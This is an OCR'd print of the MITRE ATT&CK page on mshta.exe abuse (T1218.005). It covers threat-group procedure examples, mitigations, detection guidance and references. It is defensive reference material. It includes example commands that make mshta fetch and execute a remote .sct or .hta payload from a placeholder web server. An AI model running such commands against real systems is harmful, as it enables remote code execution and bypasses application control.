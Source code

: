 3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 1/6Thank you to Tidal Cyber and SOC Prime for becoming ATT&CK's ﬁrst Benefactors. To join the cohort, or learn more about this program visit our
Benefactors page.3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 2/6Home>Techniques>Enterprise>System Binary Proxy Execution>Mshta3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 3/6System Binary Proxy Execution: Mshta
Adversaries may abuse mshta.exe to proxy execution of malicious .hta ﬁles and Javascript or VBScript through a trusted Windows utility.
There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code 
Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) ﬁles. HTAs are standalone applications that execute using the
same models and technologies of Internet Explorer, but outside of the browser. 
Files may be executed by mshta.exe through an inline script: mshta
vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
They may also be executed directly from URLs: mshta http[:]//webserver/payload[.]hta
Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of
the Internet Explorer's security context, it also bypasses browser security settings. Other sub-techniques of System Binary Proxy Execution (13)
[1][2][3][4]
[5]
[6]
[7]
[8]
Version PermalinkID: T1218.005
Sub-technique of:  T1218

Tactic: Defense Evasion

Platforms: Windows

Permissions Required: User

Defense Bypassed: Application control, Digital Certiﬁcate Validation
Contributors: @ionstorm; Ricardo Dias; Ye Yint Min Thu Htut, Offensive Security Team, DBS Bank
Version: 2.0
Created: 23 January 2020
Last Modiﬁed: 11 March 20223/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 4/6Procedure Examples
ID Name Description
G0016 APT29 APT29 has use mshta to execute malicious scripts on a compromised host.
G0050 APT32 APT32 has used mshta.exe for code execution.
S0414 BabyShark BabyShark has used mshta.exe to download and execute applications from a remote server.
C0015 C0015 During C0015, the threat actors used mshta to execute DLLs.
G0142 Confucius Confucius has used mshta.exe to execute malicious VBScript.
G1006 Earth Lusca Earth Lusca has used mshta.exe to load an HTA script within a malicious .LNK ﬁle.
G0046 FIN7 FIN7 has used mshta.exe to execute VBScript to execute malicious code on victim systems.
G0047 Gamaredon Group Gamaredon Group has used mshta.exe to execute malicious HTA ﬁles.
G0100 Inception Inception has used malicious HTA ﬁles to drop and execute malware.
G0094 Kimsuky Kimsuky has used mshta.exe to run malicious scripts on the system.
S0250 Koadic Koadic can use mshta to serve additional payloads and to help schedule tasks for persistence.
G0032 Lazarus Group Lazarus Group has used mshta.exe to execute HTML pages downloaded by initial access
documents.
G0140 LazyScripter LazyScripter has used mshta.exe to execute Koadic stagers.
S0455 Metamorfo Metamorfo has used mshta.exe to execute a HTA payload.
G0069 MuddyWater MuddyWater has used mshta.exe to execute its POWERSTATS payload and to pass a PowerShell one-
liner for execution.
G0129 Mustang Panda Mustang Panda has used mshta.exe to launch collection scripts.
S0228 NanHaiShu NanHaiShu uses mshta.exe to load its program and ﬁles.
C0016 Operation Dust
StormDuring Operation Dust Storm, the threat actors executed JavaScript code via mshta.exe .
S0223 POWERSTATS POWERSTATS can use Mshta.exe to execute additional payloads on compromised hosts.
S0147 Pteranodon Pteranodon can use mshta.exe to execute an HTA ﬁle hosted on a remote server.
S0379 Revenge RAT Revenge RAT uses mshta.exe to run malicious scripts on the system.
S0589 Sibot Sibot has been executed via MSHTA application.
G1008 SideCopy SideCopy has utilized mshta.exe to execute a malicious hta ﬁle.
G0121 Sidewinder Sidewinder has used mshta.exe to execute malicious payloads.
G1018 TA2541 TA2541 has used mshta to execute scripts including VBS.
G0127 TA551 TA551 has used mshta.exe to execute malicious payloads.
S0341 Xbash Xbash can use mshta for executing scripts.[9]
[10][11]
[12]
[13]
[14]
[15]
[5]
[16]
[17]
[18][12][19][20]
[21][22]
[23][24]
[22]
[25]
[26][27]
[28]
[29]
[1]
[26]
[16]
[30]
[31]
[32]
[33][34]
[35]
[36]
[37]3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 5/6Mitigations
ID Mitigation Description
M1042 Disable or
Remove Feature
or ProgramMshta.exe may not be necessary within a given environment since its functionality is tied to older
versions of Internet Explorer that have reached end of life.
M1038 Execution
PreventionUse application control conﬁgured to block execution of mshta.exe if it is not required for a given
system or network to prevent potential misuse by adversaries. For example, in Windows 10 and
Windows Server 2016 and above, Windows Defender Application Control (WDAC) policy rules may be
applied to block the mshta.exe application and to prevent abuse.
Detection
ID Data Source Data Component Detects
DS0017 Command Command
ExecutionLook for mshta.exe executing raw or obfuscated script within the command-line.
Compare recent invocations of mshta.exe with prior history of known good arguments
and executed .hta ﬁles to determine anomalous and potentially adversarial activity.
Command arguments used before and after the mshta.exe invocation may also be
useful in determining the origin and purpose of the .hta ﬁle being executed.
DS0022 File File Creation Monitor use of HTA ﬁles. If they are not typically used within an environment then
execution of them may be suspicious
DS0029 Network TraﬃcNetwork
Connection
CreationMonitor for newly constructed network connections that are sent or received by
untrusted hosts.
DS0009 Process Process Creation Use process monitoring to monitor the execution and arguments of mshta.exe.[38]3/22/24, 3:45 PM System Binary Proxy Execution: Mshta, Sub-technique T1218.005 - Enterprise | MITRE ATT&CK®
https://attack.mitre.org/techniques/T1218/005/ 6/6References
1. Gross, J. (2016, February 23). Operation Dust Storm. Retrieved
December 22, 2021.
2. McCammon, K. (2015, August 14). Microsoft HTML
Application (HTA) Abuse, Part Deux. Retrieved October 27,
2017.
3. Berry, A., Galang, L., Jiang, G., Leathery, J., Mohandas, R.
(2017, April 11). CVE-2017-0199: In the Wild Attacks
Leveraging HTA Handler. Retrieved October 27, 2017.
4. Dove, A. (2016, March 23). Fileless Malware – A Behavioural
Analysis Of Kovter Persistence. Retrieved December 5, 2017.
5. Carr, N., et al. (2017, April 24). FIN7 Evolution and the Phishing
LNK. Retrieved April 24, 2017.
. Wikipedia. (2017, October 14). HTML Application. Retrieved
October 27, 2017.
7. Microsoft. (n.d.). HTML Applications. Retrieved October 27,
2017.
. LOLBAS. (n.d.). Mshta.exe. Retrieved July 31, 2019.
9. ESET. (2022, February). THREAT REPORT T3 2021. Retrieved
February 10, 2022.
10. Dahan, A. (2017, May 24). OPERATION COBALT KITTY: A
LARGE-SCALE APT IN ASIA CARRIED OUT BY THE
OCEANLOTUS GROUP. Retrieved November 5, 2018.
11. Dahan, A. (2017). Operation Cobalt Kitty. Retrieved December
27, 2018.
12. CISA, FBI, CNMF. (2020, October 27). https://us-
cert.cisa.gov/ncas/alerts/aa20-301a. Retrieved November 4,
2020.
13. DFIR Report. (2021, November 29). CONTInuing the Bazar
Ransomware Story. Retrieved September 29, 2022.
14. Lunghi, D and Horejsi, J. (2018, February 13). Deciphering
Confucius: A Look at the Group's Cyberespionage Operations.
Retrieved December 26, 2021.
15. Chen, J., et al. (2022). Delving Deep: An Analysis of Earth
Lusca’s Operations. Retrieved July 1, 2022.
1. Symantec. (2022, January 31). Shuckworm Continues Cyber-
Espionage Attacks Against Ukraine. Retrieved February 17,
2022.
17. GReAT. (2019, August 12). Recent Cloud Atlas activity.
Retrieved May 8, 2020.
1. Alyac. (2019, April 3). Kimsuky Organization Steals Operation
Stealth Power. Retrieved August 13, 2019.
19. Crowdstrike. (2020, March 2). 2020 Global Threat Report.
Retrieved December 11, 2020.20. KISA. (n.d.). Phishing Target Reconnaissance and Attack
Resource Analysis Operation Muzabi. Retrieved March 7,
2022.
21. Magius, J., et al. (2017, July 19). Koadic. Retrieved June 18,
2018.
22. Jazi, H. (2021, February). LazyScripter: From Empire to double
RAT. Retrieved November 24, 2021.
23. Saini, A. and Hossein, J. (2022, January 27). North Korea’s
Lazarus APT leverages Windows Update client, GitHub in
latest campaign. Retrieved January 27, 2022.
24. Pradhan, A. (2022, February 8). LolZarus: Lazarus Group
Incorporating Lolbins into Campaigns. Retrieved March 22,
2022.
25. Sierra, E., Iglesias, G.. (2018, April 24). Metamorfo Campaigns
Targeting Brazilian Users. Retrieved July 30, 2020.
2. Singh, S. et al.. (2018, March 13). Iranian Threat Group
Updates Tactics, Techniques and Procedures in Spear
Phishing Campaign. Retrieved April 11, 2018.
27. Kaspersky Lab's Global Research & Analysis Team. (2018,
October 10). MuddyWater expands operations. Retrieved
November 2, 2018.
2. Counter Threat Unit Research Team. (2019, December 29).
BRONZE PRESIDENT Targets NGOs. Retrieved April 13, 2021.
29. F-Secure Labs. (2016, July). NANHAISHU RATing the South
China Sea. Retrieved July 6, 2018.
30. Gannon, M. (2019, February 11). With Upgrades in Delivery
and Support Infrastructure, Revenge RAT Malware is a Bigger
Threat. Retrieved May 1, 2019.
31. Naﬁsi, R., Lelli, A. (2021, March 4). GoldMax, GoldFinder, and
Sibot: Analyzing NOBELIUM’s layered persistence. Retrieved
March 8, 2021.
32. Threat Intelligence Team. (2021, December 2). SideCopy APT:
Connecting lures victims, payloads to infrastructure. Retrieved
June 13, 2022.
33. Rewterz. (2020, April 20). Sidewinder APT Group Campaign
Analysis. Retrieved January 29, 2021.
34. Rewterz. (2020, June 22). Analysis on Sidewinder APT Group
– COVID-19. Retrieved January 29, 2021.
35. Ventura, V. (2021, September 16). Operation Layover: How we
tracked an attack on the aviation industry to ﬁve years of
compromise. Retrieved September 15, 2023.
3. Duncan, B. (2021, January 7). TA551: Email Attack Campaign
Switches from Valak to IcedID. Retrieved March 17, 2021.
37. Xiao, C. (2018, September 17). Xbash Combines Botnet,
Ransomware, Coinmining in Worm that Targets Linux and
Windows. Retrieved November 14, 2018.
3. Coulter, D. et al.. (2019, April 9). Microsoft recommended block
rules. Retrieved August 12, 2021.